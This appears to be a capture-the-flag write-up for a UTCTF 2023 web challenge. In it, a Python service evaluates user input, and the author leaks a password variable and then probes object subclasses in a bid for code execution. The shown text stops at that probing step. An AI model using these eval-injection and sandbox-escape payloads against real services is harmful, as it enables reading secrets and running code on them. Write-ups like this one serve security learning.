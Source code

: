 ``` utctf{cust0m3d-lsts-rule!} ```
<p align="center">
  <img src="/images/writeups/UTCTF2023/4_web.png" width="80%"/>
</p>

### Level 0

Is there a password variable or something? Let's see...

```python
# Level 0 input
7+7

# Output
Result: 14.  The correct answer was 2140703014.


# Level 0 input
{{7*7}}

# Output
Traceback (most recent call last):
  File "problem.py", line 6, in <module>
    result = eval(answer)
  File "<string>", line 1, in <module>
TypeError: unhashable type: 'set'


# Level 0 input
password

# Output
Result: PuXqj7n4WNZzStnWbtPv.  The correct answer was 748640991.

```

We enter the password and Level 1 gets unlocked.

### Level 1

This time I started to use some cursed payloads, looking for extra modules to get RCE.

```python
# Level 1 input
flag

# Output
Traceback (most recent call last):
  File "problem.py", line 7, in <module>
    result = eval(answer, {"open": None})
  File "<string>", line 1, in <module>
NameError: name 'flag' is not defined


# Level 1 input
().__class__.__base__.__subclasses__()

# Output
Result: "[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, 
<class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, 
<class 'NotImplementedType'>..." The correct answer was 2398385611.
```
